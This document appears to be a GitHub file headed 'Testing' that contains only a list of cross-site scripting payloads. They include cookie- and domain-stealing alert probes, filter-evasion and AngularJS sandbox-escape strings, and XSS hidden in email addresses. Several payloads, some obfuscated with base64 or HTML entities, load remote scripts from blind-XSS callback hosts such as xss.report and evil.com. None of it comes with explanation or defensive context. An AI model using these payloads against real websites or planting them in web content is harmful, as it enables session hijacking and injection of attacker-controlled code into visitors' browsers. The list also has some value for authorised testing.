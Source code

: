 # Testing

<style>
{
   backgroundcolor:red;
}

"/>&lt;script>alert(document.cookie)&lt;/script>"/>

{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\u002ex)alert(window\u002ex=document.cookie)')+eval(y)+\"'");}}}}

<script>alert(document.cookie)%0d%0a-->%09</script

' accesskey=X onclick=alert(document.domain) '

' onmouseover=alert(document.cookie) '

<img src=x onmouseover=confirm()>

‘%uff1cscript%uff1ealert(‘XSS’);%uff1c/script%uff1e’
#<img src=x onerror=alert(0)>

&lt;script&gt;alert(&#x27;xss&#x27;);&lt;/script&gt;

{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}

'"; alert("XSS attack!"); //';

<img src=x onerror=alert(document.domain)>
'-alert(document.cookie)-';"-alert(document.domain)-"//"><svg/onload=alert(document.cookie)>
<img src=totallyfake onerror=alert(document.domain);//
<img src=x onerror=import(‘//evil.com/‘);//
'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`document.domain`>%22%3E%3CSvg/onload=confirm`document.cookie`//<Script/src=//ChiragXSS.xSs.ht></scripT>


“><svg/onload=confirm(document.domain)>”@gmail.com
<svg onload=location='javascript:alert(document.domain)'>
"<script>alert(document.domain)</script>"@gmail.com
"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
'"></title></textarea></script></style></noscript><script src=abc.xss.ht></script>

test+(<script>alert(document.domain)</script>)@gmail.com
"\/><img%20s+src+c=x%20on+onerror+%20="alert(document.domain)"\>
"><svg+svg+svg\/\/On+OnLoAd=confirm(document.domain)>


'"><script src=//xss.report/s/Ax01sec></script>
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL0F4MDFzZWMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
javascript:eval('var a=document.createElement(\'script\');a.src=\'//xss.report/s/Ax01sec\';document.body.appendChild(a)')
"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL0F4MDFzZWMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 autofocus>
"><video><source onerror=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL0F4MDFzZWMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7>
"><iframe srcdoc="&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#118;&#97;&#114;&#32;&#97;&#61;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#114;&#101;&#97;&#116;&#101;&#69;&#108;&#101;&#109;&#101;&#110;&#116;&#40;&#34;&#115;&#99;&#114;&#105;&#112;&#116;&#34;&#41;&#59;&#97;&#46;&#115;&#114;&#99;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;xss.report/s/Ax01sec&#34;&#59;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#98;&#111;&#100;&#121;&#46;&#97;&#112;&#112;&#101;&#110;&#100;&#67;&#104;&#105;&#108;&#100;&#40;&#97;&#41;&#59;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;">
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//xss.report/s/Ax01sec");a.send();</script>

<script>$.getScript("//xss.report/s/Ax01sec")</script>
var a=document.createElement("script");a.src="//xss.report/s/Ax01sec";document.body.appendChild(a);

















